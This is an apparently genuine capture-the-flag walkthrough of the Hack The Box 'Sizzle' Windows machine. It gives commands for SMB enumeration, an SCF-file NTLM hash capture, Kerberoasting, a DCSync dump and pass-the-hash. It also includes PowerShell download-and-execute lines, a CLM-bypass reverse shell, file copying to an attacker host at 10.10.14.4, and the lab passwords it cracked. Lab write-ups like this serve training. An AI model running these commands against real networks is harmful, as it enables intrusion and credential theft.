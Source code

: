 **Skills Required**
● AD Enumeration
● Mimikatz usage
**Skills Learned**
● Stealing hashes
● Passwordless login
● Kerberoasting
● DCSync

Port 21 (FTP)
Port 5985 WinRM
Port 5986 WinRM (SSL)
Port 445 SMB
Port 389 LDAP

Since the FTP service is active, I can connect as anonymous to enumerate information.
```
ftp 10.10.10.103
```

There's nothing to enumerate, so I try the HTTP service, which is a website.
```
whatweb 10.10.10.103
```

This reports that IIS and ASP.NET technology are being used. 

So, I check the website in the browser via HTTP and HTTPS.

There's nothing interesting on the website, but since HTTPS is active, I use OpenSSL to inspect the SSL certificate.
```
openssl s_client -connect 10.10.10.103
```

This way, I find domain names, which I add to my host file in case virtual hosting is used on the victim machine. 

As SMB is exposed, I use the CrackMapExec tool to gather more information about the machine.
```
crackmapexec smb 10.10.10.103
```

This reports another domain, which I also add to my host file.

I'll check if I have access to the SMB shared resources. For this, I use SMBMap.
```
smbmap -H 10.10.10.103 -u 'null'
```

There's a resource where I have read access, "Department Shares."

So, I create a mount on my machine to easily access all those files.
```
# On my machine
mkdir /mnt/mount
mount -t cifs "//10.10.10.103/Department Shares" /mnt/mount
```

I find a list of users, so I save them in a file since these users can be useful for gaining access to the machine later. I could try ASREPRoast attack, but as port 88 (Kerberos) is not open, I can't do it.

So, I check the users' directories to see if I have permissions to write to any of them.
```
for directory in $(ls); do echo "[+] Enum permissions $directory:\n"; echo -e "\t$(smbcacls "//10.10.10.103/Department Shares" Users/$directory -N | grep "Everyone")"; done"
```

I have write access to the "public" directory, so now I can take advantage of this to get an NTLM hash using an SCF file.

SCF File Attack

There's an application where I can upload a printer firmware, and it seems there's a testing team that checks the uploaded file. I can attempt an SCF File attack by abusing the icon. In an SCF file attack, the attacker creates a specially crafted SCF file that takes advantage of the way Windows handles these shortcut files. When the victim opens or even previews the SCF file, Windows automatically attempts to load icon resource information from it. This automatic behavior can be exploited by attackers to gather sensitive information like NTLMv2 hashes when the victim accesses the malicious SCF file over an SMB (Server Message Block) share. Create an `.scf` file with the following content:

```plaintext
[Shell]
Command=2
IconFile=\\10.10.14.4\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Then, mount a shared resource via SMB on your machine with Impacket smbserver:
```bash
impacket-smbserver share $(pwd) -smb2support
```

This will allow you to obtain the NTLMv2 hash.

This way, I obtain the hash of the "amanda" user, which I can try to crack:
```bash
john --wordlist=rockyou hash
```

Once the hash is cracked, I can validate with CrackMapExec that these credentials are valid:
```bash
crackmapexec smb 10.10.10.103 -u 'amanda' -p 'Ashare1972'
SMB         10.10.10.103    445    SIZZLE           [+] HTB.LOCAL\amanda:Ashare1972 
```

Since I have valid credentials, I can perform a Kerberoasting attack:
```bash
GetUserSPNs htb.local/amanda:Ashare1972
http/sizzle           mrlky  CN=Remote Management Users,CN=Builtin,DC=HTB,DC=LOCAL  2018-07-10 13:08:09.536421  2018-07-12 09:23:50.871575
```

The "mrlky" user is kerberoastable, but the problem is that port 88 (Kerberos) is not exposed, so I can't request the hash for this user.

There are two attack vectors: using the Rubeus tool (but I need to gain prior access to the machine), and the other option is to use Chisel to perform remote port forwarding and gain access to port 88 (Kerberos).

Enumerating administrators using rpcclient:
```bash
rpcclient -U 'amanda%Ashare1972'
enumdomgroups
querygroupmem 0x200
queryuser 0x644
```

The "amanda" user belongs to the "Remote Management Service" group, so I can connect via WinRM. Since port 5986 (WinRM SSL) is open, I need to find a way to connect via this:
Remote Management Users: amanda, mrlky

I will fuzz the web for directories using tools like Gobuster or wfuzz and the IIS.fuzz.txt dictionary:
```bash
wfuzz -c --hc=404 -t 200 -w /wordlist http://10.10.10.103/FUZZ
```

wfuzz found "certsrv," and when I tested it on the web, it asked for authentication. I can use the credentials I already have.

I gained access to an Active Directory certificate application. With this, I can request a certificate and gain access through the evil-winrm tool with the -c -S parameter:
```bash
# On my machine, create a pair of keys with OpenSSL
mkdir amanda
cd amanda
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```

Provide the CSR in the application to obtain the certificate:
```bash
evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```

This way, I gained access to the machine as "amanda."

Privilege Escalation

Use BloodHound to collect all the information from the machine:
```bash
mkdir bloodhound
cd bloodhound
bloodhound-python -c ALL -u 'amanda' -p 'Ashare1972' -ns 10.10.10.103 -d htb.local
neo4j console
bloodhound
```

This can also be done another way since I have access to the machine. I can use SharpHound.ps1: https://github.com/BloodHoundAD/Blood

Hound/blob/master/Collectors/SharpHound.ps1
```bash
# On my machine
python -m http.server 80
# On the victim machine
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/sharphound.ps1')
```

It gave a CLM error (only core types are supported in this language mode), so I have to bypass it using the psbypassclm tool: https://github.com/padovah4ck/PSByPassCLM/tree/master
```bash
# On my machine
python -m http.server 80
rlwrap nc -nlvp 1234
# On the victim machine
iwr -uri http://10.10.14.4/psbypassclm.exe -OutFile psbypasscml.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.14.4 /rport=1234 /U c:\temp\psbypasscml.exe
```

Now, try running the SharpHound.ps1 script again:
```bash
# On my machine
python -m http.server 80
# On the victim machine
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/sharphound.ps1')
Invoke-BloodHound -CollectionMethod ALL
```

Now, I need to download the .zip file to my machine:
```bash
# On my machine
smbserver share $(pwd) -smb2support -username kevin -password kevin123
# On the victim machine
net use x: \\10.10.14.4\share /user:kevin kevin123
copy .zip x:\.zip
```

Now, execute that .zip file in my BloodHound.

Through BloodHound, I found that the "mrlky" user is kerberoastable. For this, I will use the Rubeus tool: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe
```bash
# On my machine
python -m http.server 80
# On the victim machine
iwr -uri http://10.10.14.4/rubeus.exe -OutFile rubeus.exe
./rubeus kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```

This way, I obtained the hash of the "mrlky" user, and now I need to crack the hash:
```bash
john --wordlist=rockyou hash
```

I got the credentials of the other user. Now, with the secretsdump tool, I can perform a DCSync attack since the user has the getchanges and getchangesall privileges:
```bash
secretsdump htb.local/mrlky:Football#7@10.10.10.103
```

This way, I obtained the hash of the "Administrator" user, and I can use the hash to pass-the-hash with the wmiexec tool:
```bash
wmiexec htb.local/Administrator@10.10.10.103 -hashes :hash
```

This way, I compromised the machine and can consider it as completed.

Root flag: 6cf96d217e4e5721f4ac3c3a6f4fa470
User flag: 07fb9f0f240d21bb2045d8191a044365